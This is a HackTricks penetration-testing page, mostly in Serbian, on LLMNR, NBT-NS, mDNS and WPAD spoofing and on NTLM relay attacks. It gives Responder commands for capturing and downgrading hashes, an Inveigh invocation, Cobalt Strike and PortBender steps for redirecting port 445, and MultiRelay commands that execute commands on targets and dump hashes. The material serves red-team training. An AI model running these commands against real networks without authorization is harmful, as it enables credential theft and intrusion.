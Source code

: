 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Network Protocols

### Local Host Resolution Protocols
- **LLMNR, NBT-NS, and mDNS**:
- Microsoft i drugi operativni sistemi koriste LLMNR i NBT-NS za lokalno rešavanje imena kada DNS zakaže. Slično, Apple i Linux sistemi koriste mDNS.
- Ovi protokoli su podložni presretanju i spoofingu zbog svoje neautentifikovane, broadcast prirode preko UDP-a.
- [Responder](https://github.com/lgandx/Responder) se može koristiti za impersonaciju usluga slanjem lažnih odgovora hostovima koji postavljaju upite ovim protokolima.
- Dodatne informacije o impersonaciji usluga koristeći Responder mogu se naći [ovde](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Web Proxy Auto-Discovery Protocol (WPAD)
- WPAD omogućava pretraživačima da automatski otkriju postavke proxy-a.
- Otkriće se olakšava putem DHCP-a, DNS-a, ili povratka na LLMNR i NBT-NS ako DNS zakaže.
- Responder može automatizovati WPAD napade, usmeravajući klijente ka zlonamernim WPAD serverima.

### Responder for Protocol Poisoning
- **Responder** je alat koji se koristi za trovanje LLMNR, NBT-NS i mDNS upita, selektivno odgovarajući na osnovu tipova upita, prvenstveno cilja SMB usluge.
- Dolazi unapred instaliran u Kali Linux-u, konfigurisanje se vrši na `/etc/responder/Responder.conf`.
- Responder prikazuje uhvaćene hešove na ekranu i čuva ih u direktorijumu `/usr/share/responder/logs`.
- Podržava i IPv4 i IPv6.
- Windows verzija Responder-a je dostupna [ovde](https://github.com/lgandx/Responder-Windows).

#### Running Responder
- Da biste pokrenuli Responder sa podrazumevanim postavkama: `responder -I <Interface>`
- Za agresivnije ispitivanje (sa potencijalnim nuspojavama): `responder -I <Interface> -P -r -v`
- Tehnike za hvatanje NTLMv1 izazova/odgovora radi lakšeg razbijanja: `responder -I <Interface> --lm --disable-ess`
- WPAD impersonacija može se aktivirati sa: `responder -I <Interface> --wpad`
- NetBIOS zahtevi mogu se rešiti na IP napadača, a može se postaviti i proxy za autentifikaciju: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder
- Spoofing DHCP odgovora može trajno otrovati rutiranje informacija žrtve, nudeći diskretniju alternativu ARP trovanju.
- Zahteva precizno poznavanje konfiguracije ciljne mreže.
- Pokretanje napada: `./Responder.py -I eth0 -Pdv`
- Ova metoda može efikasno uhvatiti NTLMv1/2 hešove, ali zahteva pažljivo rukovanje kako bi se izbeglo ometanje mreže.

### Capturing Credentials with Responder
- Responder će impersonirati usluge koristeći gore pomenute protokole, hvatajući akreditive (obično NTLMv2 izazov/odgovor) kada korisnik pokuša da se autentifikuje protiv spoofovanih usluga.
- Mogu se pokušati da se pređe na NetNTLMv1 ili onemogući ESS radi lakšeg razbijanja akreditiva.

Važno je napomenuti da se korišćenje ovih tehnika mora vršiti legalno i etički, osiguravajući odgovarajuću autorizaciju i izbegavajući ometanje ili neovlašćen pristup.

## Inveigh

Inveigh je alat za penetracione testere i red timere, dizajniran za Windows sisteme. Nudi funkcionalnosti slične Responder-u, obavljajući spoofing i man-in-the-middle napade. Alat se razvio iz PowerShell skripte u C# binarni, sa [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) i [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) kao glavnim verzijama. Detaljni parametri i uputstva mogu se naći u [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se može koristiti kroz PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ili izvršeno kao C# binarni fajl:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Ovaj napad koristi SMB autentifikacione sesije za pristup ciljnim mašinama, omogućavajući sistemsku ljusku ako je uspešan. Ključni preduslovi uključuju:
- Autentifikovani korisnik mora imati lokalni administratorski pristup na preusmerenoj host mašini.
- SMB potpisivanje treba biti onemogućeno.

#### 445 Port Forwarding and Tunneling

U scenarijima gde direktno umrežavanje nije izvodljivo, saobraćaj na portu 445 treba preusmeriti i tunelovati. Alati poput [**PortBender**](https://github.com/praetorian-inc/PortBender) pomažu u preusmeravanju saobraćaja sa porta 445 na drugi port, što je od suštinskog značaja kada je dostupan lokalni administratorski pristup za učitavanje drajvera.

PortBender podešavanje i rad u Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Other Tools for NTLM Relay Attack

- **Metasploit**: Podesite sa proxy-ima, lokalnim i udaljenim detaljima hosta.
- **smbrelayx**: Python skripta za preusmeravanje SMB sesija i izvršavanje komandi ili postavljanje backdoor-a.
- **MultiRelay**: Alat iz Responder paketa za preusmeravanje specifičnih korisnika ili svih korisnika, izvršavanje komandi ili dumpovanje hash-eva.

Each tool can be configured to operate through a SOCKS proxy if necessary, enabling attacks even with indirect network access.

### MultiRelay Operation

MultiRelay se izvršava iz _**/usr/share/responder/tools**_ direktorijuma, ciljajući specifične IP adrese ili korisnike.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Ovi alati i tehnike čine sveobuhvatan skup za sprovođenje NTLM Relay napada u raznim mrežnim okruženjima.

### Prisiljavanje NTLM prijava

Na Windows-u **možda ćete moći da prisilite neke privilegovane naloge da se autentifikuju na proizvoljnim mašinama**. Pročitajte sledeću stranicu da biste saznali kako:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Reference
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
